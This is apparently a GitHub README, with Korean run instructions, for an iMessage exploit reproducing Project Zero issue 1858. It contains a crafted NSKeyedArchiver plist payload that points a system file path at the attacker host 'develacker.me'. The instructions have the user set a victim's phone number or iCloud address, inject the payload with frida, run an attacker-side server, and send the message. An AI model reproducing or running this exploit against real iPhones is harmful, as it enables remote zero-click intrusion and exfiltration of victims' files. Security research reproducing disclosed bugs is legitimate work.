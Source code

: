 ```xml
            <dict>
                <key>CF$UID</key>
                <integer>9</integer>
            </dict>
            <key>AC.bytes</key>
            <dict>
                <key>CF$UID</key>
                <integer>8</integer>
            </dict>
            <key>AC.length</key>
            <integer>150</integer>
        </dict>
...
        <string>http://develacker.me//System/Library/ColorSync/Resources/ColorTables.data?val=a</string>
        <string>mykey</string>
        <dict>
            <key>$class</key>
            <dict>
                <key>CF$UID</key>
                <integer>7</integer>
            </dict>
            <key>NSFileURL</key>
            <dict>
                <key>CF$UID</key>
                <integer>15</integer>
            </dict>
            <key>NSFileSize</key>
            <integer>1</integer>
        </dict>
...        
	</array>
	<key>$top</key>
	<dict>
		<key>root</key>
		<dict>
			<key>CF$UID</key>
			<integer>1</integer>
		</dict>
	</dict>
	<key>$version</key>
	<integer>100000</integer>
</dict>
</plist>
```

## How to run exploit?
1) frida 설치 (pip3 install frida)
2) sendMessage.py 파일을 열고 `receiver` 변수를 타겟 기기의 전화번호 혹은 iCloud 메일주소로 설정
3) injectMessage.js 파일에서 `[OBJ PATH]` 라고 명시된 문자열을 실제 obj 파일의 절대경로로 설정
4) obj 파일에서 `develacker.me` 로 표현된 도메인 주소를 테스트 환경에 맞는 주소로 변경 (BASE64 인코딩된 문자열도 변경)
5) 위에서 설정한 도메인 주소에 해당하는 서버에서 myserver.py 실행 (sudo 권한 필요)
6) obj 파일에서 `file:///var/mobile/Library/SMS/Attachments/` 로 시작된 문자열에서 실제 위치하는 이미지 파일 경로로 변경 (해당 아이폰에 SSH 접근하거나 sms.db 파일을 추출하여 경로정보 획득)
7) python3 sendMessage.py 

## Reference
- [Issue 1858](https://bugs.chromium.org/p/project-zero/issues/detail?id=1858)